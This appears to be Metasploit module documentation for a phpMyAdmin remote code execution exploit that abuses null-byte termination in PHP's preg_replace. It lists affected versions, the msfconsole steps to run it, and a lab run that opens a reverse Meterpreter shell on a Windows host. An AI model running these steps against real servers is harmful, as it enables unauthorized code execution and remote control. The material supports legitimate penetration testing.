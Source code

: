 ## Description

This module exploits a vulnerability in a PHP's `preg_replace()` function
that is used by phpMyAdmin's replace table feature.


## Vulnerable Application

PHP versions before 5.4.6 allow null termination of the `preg_replace` string parameter.

phpMyAdmin versions 4.6.x (prior to 4.6.3), 4.4.x versions (prior to 4.4.15.7),
and 4.0.x versions (prior to 4.0.10.16) are affected.


## Options

**DATABASE**
This option specifies the database the module will use
when creating a new table as part of the exploit.


## Verification Steps

- [ ] Install vulnerable phpMyAdmin application
- [ ] Create database through phpMyAdmin application
- [ ] `./msfconsole`
- [ ] `use exploit/multi/http/phpmyadmin_null_termination_exec`
- [ ] `set USERNAME <username>`
- [ ] `set PASSWORD <password>`
- [ ] `set DATABASE <database>`
- [ ] `set rhost <rhost>`
- [ ] `run`


## Scenarios

### Tested on Windows 7 x64 running phpMyAdmin 4.3.0 on PHP 5.3.8

```
msf > use exploit/multi/http/phpmyadmin_null_termination_exec
msf exploit(multi/http/phpmyadmin_null_termination_exec) > set rhost 172.22.222.122
rhost => 172.22.222.122
msf exploit(multi/http/phpmyadmin_null_termination_exec) > set database <database>
database => <database>
msf exploit(multi/http/phpmyadmin_null_termination_exec) > run

[*] Started reverse TCP handler on 172.22.222.177:4444 
[*] Sending stage (37775 bytes) to 172.22.222.122
[*] Sleeping before handling stage...
[*] Meterpreter session 2 opened (172.22.222.177:4444 -> 172.22.222.122:49169) at 2018-06-18 07:28:19 -0500
[-] 172.22.222.122:80 - Failed to remove the table 'spkkw'

meterpreter > sysinfo
Computer    : WIN-V438RLMESAE
OS          : Windows NT 6.1 build 7601 (Windows 7 Business Edition Service Pack 1) i586
Meterpreter : php/windows
```
